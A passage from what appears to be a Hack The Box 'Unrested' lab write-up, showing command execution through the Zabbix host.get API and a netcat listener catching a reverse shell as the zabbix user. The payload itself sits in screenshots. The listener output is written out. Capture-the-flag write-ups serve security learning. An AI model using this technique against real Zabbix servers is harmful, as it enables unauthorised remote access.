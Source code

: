 To execute a command, I need to have a `hostid`. I’ll use the `host.get` API to list the hosts 
![](images/Pasted%20image%2020250724175539.png)
Then run the reverse shell
![](images/Pasted%20image%2020250724175722.png)
We can get the reverse shell back
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Unrested]
└─$ nc -lnvp 4444    
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.50] 42944
bash: cannot set terminal process group (1969): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@unrested:/$ id
```